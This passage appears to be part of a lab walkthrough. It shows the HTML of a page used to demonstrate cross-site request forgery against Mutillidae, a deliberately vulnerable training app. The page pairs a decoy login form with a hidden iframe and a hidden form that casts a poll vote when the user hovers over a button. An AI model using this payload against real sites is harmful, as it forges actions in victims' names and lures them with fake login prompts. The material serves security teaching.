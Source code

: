                 <p>Enter your username and password:</p>

                <form id="dummy" action="/whoLookedResult.html">
                    <label for="username">Username: </label>
                    <input type="text" name="username" value=""><br><br>

                    <label for="password">Password: </label>
                    <input type="password" name="password" value="">
                </form> 

                <!-- Send GET request on mouseover-->
                <button type="submit" form="dummy" value="Submit" onmouseover="document.getElementById('csrf').submit()">See</button>
            </center>

            <!-- Form target frame to avoid redirection -->
            <iframe id="iframe" name="my_iframe" style="position: absolute;width:0;height:0;border:0;"></iframe>
            
            <!-- CSRF - Vote -->
            <form name="csrf" id="csrf" target="my_iframe" action="http://192.168.56.101/mutillidae/index.php" method="GET">
                <input type="hidden" name='page' value='user-poll.php'>
                <input type="hidden" name='csrf-token' value=''>
                <input type="hidden" name='choice' value='wireshark'>
                <input type="hidden" name='initials' value='hm'>
                <input type="hidden" name='user-poll-php-submit-button' value='Submit Vote'>
            </form>

        </body>

    </html>
    ```

4. When unsuspecting victims move their mouse on the submit button, a GET request will be created and sent which will result in a vote.

